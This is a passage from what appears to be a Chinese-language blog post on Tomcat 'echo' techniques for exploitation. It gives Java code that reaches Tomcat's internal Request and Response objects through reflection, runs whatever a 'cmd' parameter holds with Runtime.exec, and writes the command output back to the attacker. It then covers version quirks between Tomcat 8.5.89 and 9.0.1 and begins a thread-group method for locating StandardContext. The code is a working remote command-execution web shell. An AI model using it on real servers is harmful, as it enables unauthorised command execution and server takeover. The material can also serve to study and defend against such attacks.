                         for (RequestInfo info : requestInfo) {  
      
                            org.apache.coyote.Request request = (Request) req1.get(info);  
      
                            org.apache.catalina.connector.Request request1 = (org.apache.catalina.connector.Request) request.getNote(1);  
                              
                            org.apache.catalina.connector.Response response = request1.getResponse();  
      
                            String cmd = request1.getParameter("cmd");  
                            InputStream is = Runtime.getRuntime().exec(cmd).getInputStream();  
                            BufferedInputStream bis = new BufferedInputStream(is);  
                            int len;  
                            while ((len = bis.read())!=-1){  
                                response.getWriter().write(len);  
                            }  
                        }  
                    }  
                }  
      
            } catch (NoSuchFieldException e) {  
                e.printStackTrace();  
            } catch (IllegalAccessException | ClassNotFoundException e) {  
                e.printStackTrace();  
            } catch (NoSuchMethodException e) {  
                e.printStackTrace();  
            } catch (InvocationTargetException e) {  
                e.printStackTrace();  
            }  
    

测试环境: jdk8,tomcat8

![]()

这里涉及到tomcat的版本问题,在webappClassLoaderBase.getResources()方法中,我这里的8.5.89的代码如下:![]()

所以没办法只能换一个版本,我这里直接用的9.0.1,在看getResources()![]()

再看运行状况,这次就可以了![]()

为什么获取standardContext这么复杂,因为standardContext在tomcat启动的时候与项目部署的应用程序对应,一个standardContext对应一个web应用程序

![]()

而利用线程获取的类加载器获取的standardContext对象中的数据如下![]()

接下去的poc就是一步一步的获取到底层处理http请求的org.apache.catalina.connector.Request进而获取Response来回显数据了

## 寻找standardContext

前面的方式只能在限定版本中使用,下面找一下其他的方式来实现回显

查阅一些文章之后发现可以通过线程组来获取standardContext

    
    
    Thread[] threads = (Thread[]) this.getField(Thread.currentThread().getThreadGroup(), "threads");  
    